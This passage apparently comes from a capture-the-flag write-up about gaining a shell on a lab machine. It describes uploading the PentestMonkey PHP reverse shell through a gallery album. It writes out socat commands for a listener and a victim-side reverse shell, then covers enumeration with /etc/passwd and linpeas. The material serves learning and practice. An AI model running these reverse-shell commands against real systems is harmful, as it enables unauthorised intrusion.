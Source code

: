 To get a shell we can upload a reverse shell in the **Album** and include it.

<img src="./images/gallery.png">

Here I have used the PHP reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

After getting shell in order to stabilize it we can use Python.
But I have used socat since it is already installed on the machine.

attacker
```
socat file:`tty`,raw,echo=0 tcp-listen:<port>
```
victim
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:<port>
```

<br>

## Machine

We get the shell as the user www-data.

Checking the /etc/passwd shows that we have these users
```
1. mike
2. ubuntu
3. root
```

To enumerate the machine I have used [linpeas](https://linpeas.sh)
Here there is an interesting result

<img src="./images/linpeas.png" width="300">
